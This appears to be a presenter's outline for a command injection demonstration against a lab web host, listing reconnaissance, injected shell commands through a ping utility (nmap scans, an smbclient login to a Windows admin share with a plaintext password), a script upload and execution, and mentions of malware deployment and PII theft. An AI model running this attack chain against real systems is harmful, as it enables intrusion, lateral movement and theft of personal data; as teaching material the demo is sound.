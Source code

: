 Command Injection Demo:
=======================

Academic:
=========
    Dig through DNS\
    Port scan IPs\
    Interrogate IP\
	HTTP Watch/Fiddler/Postman/Wireshark\
	Headers can indicate the stack\
 \

Commands:\
==========
    Login: wier credentials to connect.hackysock.com\
    Browse site… Exploratory work\
    Over to the ping utility\
        note the command injection flaw.\
	    whoami\
	    pwd\
	    cd ../../\
	    ls\
	    ifconfig -a | grep netmask\
	    which nmap\
	    nmap -sP 192.168.122.1/24\
	    namp -p 135 192.168.122.7\
	    smbclient -N '//192.168.122.7/c$' -W HACKYSOC -U wier%frantic-Folly3 -c ls
	
Find Upload section:\
====================
    Upload file: Note the path description\
	Figure out where uploads go\
	Upload script\
	CHMOD script\
		chmod 775 ../../hackable/uploads/pull_scripts.sh\
	Execute script\
		../../hackable/uploads/pull_scripts.sh\
	Show all the scripts that were pulled down from GitHub

* It should be apparent at this point that I own the box so…

Drop to shell to show rest of demo and malware deployment.\
	Execute pii script\
	Show pii data pulled from windows machine
	

	
